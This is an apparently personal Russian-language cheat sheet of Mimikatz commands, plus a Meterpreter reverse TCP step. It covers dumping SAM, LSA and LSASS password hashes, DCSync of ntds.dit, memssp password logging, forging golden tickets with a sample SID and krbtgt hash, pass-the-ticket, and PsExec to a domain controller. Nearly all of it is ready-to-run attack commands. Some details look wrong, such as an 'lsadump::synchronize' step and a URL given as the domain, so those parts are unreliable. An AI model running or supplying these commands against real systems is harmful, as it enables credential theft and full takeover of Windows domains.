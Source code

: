 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- token::elevate - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- lsadump::lsa /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
-  lsadump::cache - mscash2 последних 10 пользователей из систем и секьюрити
- lsadump::dcsync /all /csv - дампим ntds.dit с контроллера
Подробнее: https://www.securitylab.ru/analytics/517178.php

Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt) ---нужен sid и хеш krbtgt

# Create golden ticket (write to file in this case)
PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt golden

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe
